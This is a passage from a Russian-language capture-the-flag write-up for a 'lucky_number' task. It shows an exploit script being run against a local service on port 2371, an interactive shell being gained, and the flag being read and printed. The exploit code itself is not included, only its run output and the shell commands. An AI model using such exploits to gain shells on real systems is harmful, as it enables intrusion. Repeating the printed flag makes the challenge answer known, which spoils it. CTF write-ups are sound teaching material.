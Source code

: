 Все хорошо, флаг выводится, теперь проверим на сервере (закомментим строку файлом и раскомментим строку с подключением по nc):

```bash
$python3 exploit.py 
[+] Opening connection to localhost on port 2371: Done
[*] Switching to interactive mode
$ ls
flag
lucky_number
$ cat flag
surctf_1ucky_l0tT3ry_Winn3r_2023$  
```

Отлично, флаг получен.

`flag: surctf_1ucky_l0tT3ry_Winn3r_2023`
